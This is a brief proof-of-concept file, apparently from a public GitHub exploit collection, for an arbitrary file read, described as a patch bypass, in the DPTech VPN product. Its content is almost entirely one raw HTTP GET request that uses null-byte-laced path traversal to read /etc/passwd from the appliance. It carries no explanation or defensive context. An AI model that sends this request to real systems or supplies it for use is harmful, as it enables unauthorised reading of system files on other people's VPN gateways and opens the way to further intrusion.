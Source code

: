 # DPTech_fileread

product: 迪普DPTech-VPN
```
GET /.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2Fetc%2Fpasswd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

from: https://github.com/wy876/POC/blob/main/%E8%BF%AA%E6%99%AE/%E8%BF%AA%E6%99%AEDPTech-VPN%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96(%E8%A1%A5%E4%B8%81%E7%BB%95%E8%BF%87).md
